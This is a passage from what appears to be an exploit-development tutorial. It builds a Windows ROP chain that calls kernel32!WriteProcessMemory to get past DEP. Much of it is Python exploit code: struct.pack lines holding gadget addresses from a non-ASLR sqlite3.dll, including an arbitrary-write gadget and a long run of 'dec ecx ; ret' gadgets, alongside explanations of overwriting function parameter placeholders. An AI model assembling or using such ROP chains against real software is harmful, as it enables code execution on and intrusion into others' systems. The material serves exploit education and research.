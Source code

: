 ```python
crash += struct.pack('<L', 0x1001f5b4)    # mov dword ptr [ecx], edx
```

The state of the parameters before the overwrite occurs can be seen below.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM62a.png" alt="">

As we can see, the junk `0x22222222` parameter will be the target for the overwrite.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM63.png" alt="">

Stepping through the instruction, we have dynamically changed the parameter placeholder for `nSize` to the legitimate parameter!

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM64.png" alt="">

kernel32!WriteProcessMemory
---

Perfect! All that is left now is to is extract our current pointer to `kernel32.dll` and calculate the offset between `kernel32WriteFileImplementation` and `kernel32!WriteProcessMemory`. After this, we will use the same primitive of dynamically manipulating the `kernel32WriteProcessMemory` parameter placeholder to point to the actual API.

Currently. ECX (the register we have been leveraging for each of the arbitrary writes to overwrite function parameter placeholders), is 0x14 (20 decimal) bytes away from the `kernel32!WriteProcessMemory` parameter placeholder.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM65.png" alt="">

Knowing this, we will prepare another arbitrary write by decrementing ECX by 0x14 bytes.

```python
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
```
